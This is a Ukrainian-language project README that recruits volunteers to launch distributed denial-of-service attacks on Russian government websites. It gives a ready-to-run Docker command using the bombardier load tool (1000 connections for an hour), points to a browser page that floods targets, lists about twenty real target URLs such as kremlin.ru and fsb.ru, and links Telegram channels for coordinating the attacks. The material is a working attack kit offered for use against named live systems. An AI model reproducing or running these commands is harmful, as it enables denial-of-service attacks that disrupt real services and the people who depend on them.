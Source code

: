 # Варіант 1 (для власників мобільних телефонів також)
Просто відкрийте і залиште сайт відкритим - [https://stop-russian-desinformation.near.page/](https://stop-russian-desinformation.near.page/)  
**Впевніться, що у вас достатньо заряду акумулятора та є доступ до зарядки**  
За можливості увімкніть VPN  

# Канали для новин та координації
- [https://t.me/+97Y45he5lOI2ZTky](https://t.me/+97Y45he5lOI2ZTky)
- [https://t.me/ddosRussians](https://t.me/ddosRussians)
- [https://t.me/itguildukraine](https://t.me/itguildukraine)

# Варіант 2
1. Встановіть [Docker](https://www.docker.com/products/docker-desktop)
2. Встановіть VPN 
- [ProtonVPN](https://protonvpn.com/download)
- [Windscribe](https://windscribe.com/download)
- [F-Secure](https://www.f-secure.com/en/home/login)
- [ClearVPN](https://my.clearvpn.com/enter)
- [Urban VPN](https://www.urban-vpn.com/)
3. Запустіть в терміналі команду
```
docker run -ti --rm alpine/bombardier -c 1000 -d 3600s -l https://www.gosuslugi.ru
```
(замініть `https://www.gosuslugi.ru` на необхідний сайт)  
**Ви можете відкрити декілька вікон терміналу**

## Ресурси для атаки (краще слідкувати за апдейтами в Telegram)
`http://duma.gov.ru/` `http://president-sovet.ru/` `https://sovetnational.ru/` `https://www.gosuslugi.ru/ru/` `https://zakupki.gov.ru/epz/main/public/home.html` `https://gossluzhba.gov.ru/` `http://defence.council.gov.ru/` `http://budget.council.gov.ru/` `http://www.kremlin.ru/` `https://government.ru/` `http://www.scrf.gov.ru/` `http://www.ksrf.ru/ru/Pages/default.aspx` `http://www.vsrf.ru/` `http://premier.gov.ru/events/` `https://www.mchs.gov.ru/` `https://minjust.gov.ru/ru/` `http://www.fsb.ru/` `https://rosguard.gov.ru/` `https://customs.gov.ru/` `https://udprf.ru/` `http://favt.gov.ru/`

[Contribute](https://github.com/domanskyi/xsquad)
